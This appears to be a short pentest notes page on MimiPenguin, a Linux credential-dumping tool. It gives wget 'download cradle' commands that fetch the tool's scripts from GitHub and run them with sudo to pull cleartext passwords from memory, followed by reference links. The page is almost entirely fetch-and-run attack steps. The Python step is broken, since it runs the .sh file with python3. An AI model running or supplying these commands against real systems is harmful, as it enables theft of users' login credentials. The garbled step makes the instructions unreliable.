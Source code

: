 # Scripts

## MimiPenguin

### Usage

Download cradle of the shell script then execute it.

```
$ wget --no-hsts https://raw.githubusercontent.com/huntergregal/mimipenguin/refs/heads/master/mimipenguin.sh

$ chmod +x mimipenguin.sh && sudo ./mimipenguin.sh
```

Download cradle of the python script then execute it.

```
$ wget --no-hsts https://raw.githubusercontent.com/huntergregal/mimipenguin/refs/heads/master/mimipenguin.py

$ chmod +x mimipenguin.py && sudo python3 ./mimipenguin.sh
```

---
## References

### Github

- [MimiPenguin](https://github.com/huntergregal/mimipenguin)

### Hacking Articles

- [Hacking Articles: Dump Cleartext Password in Linux PC using MimiPenguin](https://www.hackingarticles.in/dump-cleartext-password-linux-pc-using-mimipenguin/)